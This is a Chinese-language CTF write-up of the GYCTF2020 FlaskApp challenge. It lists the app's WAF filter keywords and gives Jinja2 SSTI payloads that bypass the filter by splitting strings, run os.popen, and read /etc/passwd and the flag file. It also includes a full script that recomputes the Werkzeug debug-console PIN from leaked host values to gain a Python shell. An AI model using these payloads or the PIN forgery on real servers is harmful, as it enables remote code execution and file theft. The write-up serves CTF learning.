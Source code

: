 # \[GYCTF2020]FlaskApp

## \[GYCTF2020]FlaskApp <a href="#2155852200" id="2155852200"></a>

## 考点

* Flask debug模式
* Flask SSTI绕过
* Flask PIN值

## wp

进行解码测试的时候发现会报错进入debug页面，然后可以看到一部分代码

![](../../.gitbook/assets/pi8ZT4Kba6xALdO.png)

这部分代码说明存在 SSTI，并且需要绕过 `waf()` 函数，测试了一下，过滤的内容如下

```
b'request'
b'__import__'
b'eval'
b'popen'
b'system'
b'flag'
b'*'
b'import'
```

试着发现好像把命令执行的函数都给 ban 了

### 非预期

尝试使用字符串拼接来绕过对这些函数的限制

```bash
{{''.__class__.__base__.__subclasses__()[131].__init__.__globals__['__builtins__']['ev'+'al']('__im'+'port__("o'+'s").po'+'pen("cat /this_is_the_fl'+'ag.txt")').read()}}
```

### 预期

先读取文件试试

payload : `{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`&#x20;

转成base64输入

![](../../.gitbook/assets/qCSQYk76jUBGe1Z.png)

这里就有个任意文件读取。

在debug页面可以通过输入pin码打开python shell

生成PIN的关键值有如下几个

* 服务器运行 flask 所登录的用户名。 通过 /etc/passwd 中可以猜测为 flaskweb 或者 root ，此处用的flaskweb
* modname 一般不变就是 flask.app
* `getattr(app, "__name__", app.__class__.__name__)` python 该值一般为 Flask，值一般不变
* flask 库下 app.py 的绝对路径，通过报错信息就会泄露该值。本题为 `/usr/local/lib/python3.7/site-packages/flask/app.py`
* 当前网络的 mac 地址的十进制数。通过文件 `/sys/class/net/eth0/address` 获取，本题为 `02:42:ae:01:54:15`
* 最后一个就是机器的 id 对于非 docker 机每一个机器都会有自已唯一的 id ，linux的 id 一般存放在 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_i`，有的系统没有这两个文件，windows 的 `id` 获取跟 `linux` 也不同。对于 `docker` 机则读取 `/proc/self/cgroup` 本题为 `201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201`

接下来就是获取 PIN 值，计算PIN值的关键代码在 `Lib\site-packages\werkzeug\debug\__init__.py`

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.7/site-packages/flask/app.py',
]

private_bits = [
    # mac 地址的十进制数
    '2485410419733',
    # 机器的 id 
    '201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

得到结果 `676-092-706`

然后选择右侧 shell 图标

![](../../.gitbook/assets/sXHONA7JYVdDtRi.png)

输入 PIN 值

![](<../../.gitbook/assets/image (2) (1) (1).png>)

![](<../../.gitbook/assets/image (34) (1) (1) (1) (1) (1).png>)

这里执行 `os.system('ls /')` 返回为 `0`，是因为这个命令虽然执行了，但是没有获取执行的结果，即 os.system 仅仅在一个子终端运行系统命令，而不能获取命令执行后的返回信息
